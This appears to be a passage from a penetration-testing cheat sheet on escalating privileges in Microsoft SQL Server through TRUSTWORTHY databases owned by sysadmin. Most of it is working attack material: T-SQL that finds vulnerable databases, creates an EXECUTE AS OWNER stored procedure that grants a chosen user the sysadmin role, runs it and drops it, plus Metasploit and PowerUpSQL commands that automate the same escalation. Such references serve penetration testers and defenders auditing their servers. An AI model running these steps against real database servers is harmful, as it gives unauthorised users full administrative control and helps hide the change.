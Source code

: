 ```sql
-- List the value of the property TRUSTWORTHY property for all databases
SELECT name, is_trustworthy_on from sys.databases

-- Get the owner of the specified database
SELECT name AS 'Database', suser_sname(owner_sid) AS 'Creator' from sys.databases WHERE name = '<DATABASE_NAME>';

--  Automates the search of trustworthy databases owned by a sysadmin
SELECT d.name AS DATABASENAME FROM sys.server_principals r INNER JOIN sys.server_role_members m ON r.principal_id = m.role_principal_id INNER JOIN sys.server_principals p ON p.principal_id = m.member_principal_id inner join sys.databases d on suser_sname(d.owner_sid) = p.name WHERE is_trustworthy_on = 1 AND d.name NOT IN ('MSDB') and r.type = 'R' and r.name = N'sysadmin'

-- Has the current user the db_owner role on the database
USE <DB_NAME>
SELECT IS_MEMBER('db_owner')

-- Create the stored procedure to add the sysadmin role to the specified user
CREATE PROCEDURE sp_elevate_user WITH EXECUTE AS OWNER AS begin EXEC sp_addsrvrolemember '<USERNAME>','sysadmin' end;
GO

-- Execute the stored procedure to elevate privileges
sp_elevate_user
GO

-- Remove the stored procedure
DROP PROC sp_elevate_user;
GO
```

The `Metasploit`'s `auxiliary/admin/mssql/mssql_escalate_dbowner` module and
the `PowerShell` cmdlet `Invoke-SqlServer-Escalate-DbOwner` can be used to
automate the process:

```bash
msf5> use auxiliary/admin/mssql/mssql_escalate_dbowner

# Grant user used to login the `sysadmin` role
Invoke-SqlServer-Escalate-DbOwner -SqlServerInstance <HOSTNAME | IP>\<INSTANCE> -SqlUser <USERNAME> -SqlPass <PASSWORD>

# Create a new user and grant him the `sysadmin` role
Invoke-SqlServer-Escalate-DbOwner -SqlServerInstance <HOSTNAME | IP>\<INSTANCE> -SqlUser <USERNAME> -SqlPass <PASSWORD> -newuser <NEW_USERNAME> -newPass <NEW_PASSWORD>
```

###### PowerUpSQL's Invoke-SQLAudit / Invoke-SQLEscalatePriv

The `PowerShell` cmdlets `Invoke-SQLAudit` and `Invoke-SQLEscalatePriv`, of
the `PowerUpSQL` suite, can be used to detect and exploit path that can be
leveraged to escalate privileges.
